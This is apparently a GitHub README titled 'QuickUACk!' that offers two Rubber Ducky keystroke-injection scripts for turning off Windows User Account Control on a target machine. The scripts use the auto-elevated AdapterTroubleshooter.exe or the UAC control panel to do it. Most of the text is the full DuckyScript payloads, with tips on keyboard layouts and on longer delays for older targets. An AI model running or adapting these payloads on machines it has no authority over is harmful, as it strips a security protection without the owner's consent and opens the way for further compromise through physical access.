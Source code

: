 # QuickUACk!
Some of my antiUAC Scripts for Rubbber Ducky

A pair of fast solutions to disable UAC (User Account Control) 
</BR>
it works on all windows version 32 and 64 bits with uac (Vista or Earlier) 
</BR>
and are valid for all languages (Latin, of course).
</BR>

The scripts were created with the Italian keyboard, 
</BR>
so I do not exclude that in some cases they require minor adjustments.
</BR>
if the target machine is old, I recommend extending the delay time.

</BR>

![alt text](https://media1.giphy.com/media/aQrYT4WVN55aU/giphy.gif)


</BR>


Ver 1.0 uses a .exe application from the C: \ Windows \ System32 (system protected) folder, 
</BR>
to start the uac on-screen control and switch to the uac panel.
</BR>
the C: \ Windows \ SysWOW64 folder for the purpose or other protected system folders that contain exe are also fine.
</BR>
Several applications contained in System32 are good, but be careful because there are some exceptions.
</BR>
You can consult this list to see the applications that are whitelisted by default on W7 
</BR>
and therefore  do not require uac checking to be performed:
</BR>

https://books.google.it/books?id=1EXt2U84WZ0C&pg=PA278&lpg=PA278&dq=AdapterTroubleshooter.exe&source=bl&ots=sWxJuFdZdU&sig=OhOUJ9gzJxfLb4jlJPiuZyP2F-U&hl=it&sa=X&ved=0ahUKEwi37qe0_fvaAhWMyqYKHWz8CWQQ6AEIcDAN#v=onepage&q=AdapterTroubleshooter.exe&f=false


![alt text](https://i.imgur.com/3k9YWzZ.gif)

</BR>

@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

QuickUACk Ver. 1.0

DELAY 2000
</BR>
CTRL ESC
</BR>
DELAY 200
</BR>
REM start C:\Windows\System32\AdapterTroubleshooter.exe
</BR>
REM work on all windows version 32 and 64 bit
</BR>
REM no reboot is required for disabling 
</BR>
STRING AdapterTroubleshooter
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
TAB
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DELAY 200
</BR>
TAB
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
LEFTARROW
</BR>
DELAY 200
</BR>
ENTER
</BR>

-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-



QuickUACk Ver. 2.0

DELAY 2000
</BR>
CTRL ESC
</BR>
DELAY 200
</BR>
REM opens directly the User Account Control Panel 
</BR>
REM work on all windows version 32 and 64 bit with uac (Vista or Earlier)
</BR>
REM no reboot is required for disabling
</BR>
STRING UAC
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
LEFTARROW
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DELAY 200
</BR>
TAB
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
LEFTARROW
</BR>
DELAY 200
</BR>
ENTER

</BR>

@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
